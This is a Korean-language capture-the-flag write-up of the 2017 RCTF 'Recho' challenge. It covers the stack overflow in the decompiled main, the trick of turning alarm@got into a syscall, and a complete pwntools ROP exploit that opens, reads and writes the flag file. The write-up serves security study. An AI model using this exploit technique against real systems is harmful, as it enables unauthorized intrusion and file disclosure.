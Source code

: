 ```yaml
---
title: "2017 RCTF Recho"
date: 2020-1-3
tags: [RCTF]
categories: [RCTF]
---
```


64비트 바이너리가 주어진다.

```
Recho: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=6696795a3d110750d6229d85238cad1a67892298, not stripped
```

메인에서는 원하는만큼 크기를 정하고 그 크기만큼 입력받을 수 있다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char nptr; // [rsp+0h] [rbp-40h]
  char buf[40]; // [rsp+10h] [rbp-30h]
  int v6; // [rsp+38h] [rbp-8h]
  int v7; // [rsp+3Ch] [rbp-4h]

  Init();
  write(1, "Welcome to Recho server!\n", 0x19uLL);
  while ( read(0, &nptr, 0x10uLL) > 0 )
  {
    v7 = atoi(&nptr);
    if ( v7 <= 15 )
      v7 = 16;
    v6 = read(0, buf, v7);
    buf[v6] = 0;
    printf("%s", buf);
  }
  return 0;
}
```

flag라는 파일을 읽어오는 문제다. 근데 .data 영역에 flag라는 문자열이 존재했다.

flag라는 파일을 읽기 위한 함수가 딱히 존재하지 않았다. 그냥 syscall을 이용해서 orw해주면 되는 문제다.

근데 int 0x80이 바이너리 내에 존재하지 않는다. 나 같은 경우에는 alarm함수의 syscall을 이용했다.

![](https://user-images.githubusercontent.com/32904385/71731844-12db9880-2e89-11ea-83d5-b54405616f5b.png)

alarm+5 위치에 syscall이 존재했다. `add byte ptr [rdi], al ; ret` 가젯을 이용해서 rdi에 alarm@got를 넣어주고 al 값에 5를 넣어주고 alarm을 호출하면 syscall이 호출될 것이다. 이를 이용해서 orw를 해주면 된다.

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./Recho')
p = process('./Recho')
prdi = 0x00000000004008a3 # pop rdi ; ret
prax = 0x00000000004006fc # pop rax ; ret
add_rdi_al = 0x000000000040070d # add byte ptr [rdi], al ; ret
prsi_r15 = 0x00000000004008a1 # pop rsi ; pop r15 ; ret
prdx = 0x00000000004006fe # pop rdx ; ret
flag = 0x0000000000601058
syscall = e.plt['alarm']

# alarm+5 syscall
payload = 'A'*48
payload += 'realsung'
payload += p64(prdi) + p64(e.got['alarm'])
payload += p64(prax) + p64(0x5) + p64(add_rdi_al)

# sys_open(flag,0,0)
payload += p64(prdi) + p64(flag)
payload += p64(prsi_r15) + p64(0) + p64(0)
payload += p64(prdx) + p64(0)
payload += p64(prax) + p64(0x2) + p64(syscall)

# sys_read(3,bss,100)
payload += p64(prdi) + p64(3)
payload += p64(prsi_r15) + p64(e.bss()) + p64(0)
payload += p64(prdx) + p64(100)
payload += p64(prax) + p64(0) + p64(syscall)

# sys_write(1,bss,100)
payload += p64(prdi) + p64(1)
payload += p64(prsi_r15) + p64(e.bss()) + p64(0)
payload += p64(prdx) + p64(100)
payload += p64(prax) + p64(1) + p64(syscall)

p.sendlineafter('server!\n',str(1000))
p.send(payload)

p.shutdown()
p.interactive()
```

